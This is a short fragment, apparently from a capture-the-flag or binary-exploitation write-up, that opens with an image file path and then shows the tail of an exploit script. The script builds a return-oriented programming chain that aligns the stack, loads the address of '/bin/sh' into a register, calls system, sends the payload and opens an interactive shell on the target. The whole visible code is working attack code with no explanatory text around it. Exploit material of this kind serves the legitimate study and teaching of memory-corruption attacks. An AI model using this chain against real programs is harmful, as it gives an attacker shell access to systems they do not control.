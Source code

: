 ```
payload += p64(ret)
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)
p.interactive()
```
